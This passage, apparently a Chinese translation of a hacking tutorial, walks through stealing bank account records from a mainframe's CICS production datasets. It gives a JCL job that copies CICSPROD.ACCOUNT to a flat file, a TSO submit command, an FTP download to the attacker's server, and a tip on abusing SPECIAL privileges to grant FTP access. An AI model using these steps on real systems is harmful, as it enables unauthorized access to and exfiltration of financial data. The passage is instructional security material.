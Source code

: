 有趣！CICS是用于在大型机上托管交互式应用程序的中间件。今天处理电汇、银行数据和欺诈控制的大多数业务应用程序都依赖于它，这使它成为一个很好的目标。让我们列出它的主“文件夹”: ![](.gitbook/assets/13.cics.jpg)

非常满足期望的文件！但要把它弄出来并不是那么简单。这些是索引的 VSAM 数据集：保存索引数据的二进制文件。在使用IND$FILE或FTP下载它们之前，我们需要将它们转换为平面文件。

我们在 Front Gun 服务器上准备一个脚本，将这些 VSAM 文件转换为平面文件。它是启动排序程序的JCL代码。后者每次将VSAM数据集（CICSPROD.ACCOUNT）的一条记录复制到一个普通的平面文件（BARNEY.FLAT.ACCOUNT）中。其余选项只是复制文件时的标准选项（分配给新文件的空间、每行的长度、文件类型等）

```text
//JOBCOPY JOB
//STEP0100 EXEC PGM=SORT
//SYSOUT    DD SYSOUT=*
//SORTIN    DD DSN=CICSPROD.ACCOUNT,
//    DISP=SHR
//SORTOUT DD DSN=BARNEY.FLAT.ACCOUNT,
//    DISP=(NEW,CATLG,DELETE),
//    UNIT=SYSDA,
//    SPACE=(CYL,(20,1),RLSE),
//    DCB=(LRECL=80,RECFM=FB,BLKSIZE=0)
//SYSIN    DD *
SORT FIELDS=COPY
/*
```

> 提示：在现实生活中，我们需要确保输出文件的大小和记录长度与输入文件的属性匹配。为了简单起见，我们忽略了这些细节。

我们使用文件传输选项（这次使用选项LRECL=80，BLKSIZE=24000）将这个脚本上传到大型机，并在TSO上使用以下命令执行它:

```text
READY
sub 'BARNEY.COPY’
```

完成后，我们可以使用文件传输选项或常规 FTP 客户端下载生成的BARNEY.FLAT.ACCOUNT文件:

```text
>    ftp 10.10.40.33
14020 bytes received in 0.55 secs (26.5188 kB/s)
```

![](.gitbook/assets/14.download.jpg)

> 提示：Barney需要OMVS（Unix）访问才能使用FTP。鉴于我们有SPECIAL特权，我们可以把它交给他的帐户。
>
> 提示：要了解有关大型机黑客攻击的更多信息，请查看Fortran和BigEndianSmalls的士兵的演讲：[https://www.youtube.com/watch？v=LgmqiugpVyU](https://www.youtube.com/watch？v=LgmqiugpVyU) （译注：defcon的演讲视频）
